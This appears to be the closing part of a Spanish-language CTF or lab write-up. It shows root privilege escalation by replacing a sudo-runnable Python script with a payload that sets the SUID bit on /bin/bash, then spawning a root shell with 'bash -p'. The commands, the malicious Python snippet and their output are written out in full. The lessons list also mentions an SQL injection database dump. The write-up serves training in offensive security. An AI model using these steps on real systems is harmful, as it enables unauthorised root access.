 Lo que aremos es crear un script malicioso en la ruta: **( /tmp )** bajo en mismo nombre de la libreria que queremos secuestrar: `psutil`
Este sera el contenido de la libreria maliciosa:
```python
import os;
os.system("chmod u+s /bin/bash")
```

Ahora modificaremos la variable de entorno para que apunte en la busqueda en la ruta: **( /tmp )** y asi ejecute nuestra libreria maliciosa:
```BASH
export PATH=/tmp:$PATH
```

**nota** al ejecutar el binario no funciono nuestro ataque:
```bash
sudo -u root /usr/bin/python3 /home/kvzlx/system_info.py
```

Intentarmeos otra tecnica que es cambiarle el nombre: **( system_info.py )** por otro 
```bash
mv system_info.py natepaga.py
```

asi mismo creamos uno con el mismo nombre: **( system_info.py )** y este tendra el mismo contenido malicioso:
```python
import os;
os.system("chmod u+s /bin/bash")
```

Una ves que tenemos el archivo falso bajo con el mismo nombre procedemos a ejecutarlo
```bash
sudo -u root /usr/bin/python3 /home/kvzlx/system_info.py
```

Listamos los permisos ahora para ver si funciono:
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```

Hemos tenido exito, Ahora solo tendremos que ejecutar una **bash** como **root**
```bash
bash -p
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a dumpear toda la base de datos atraves de un **SQLInjection**
2. Aprendimos a secuestrar scripts de **python**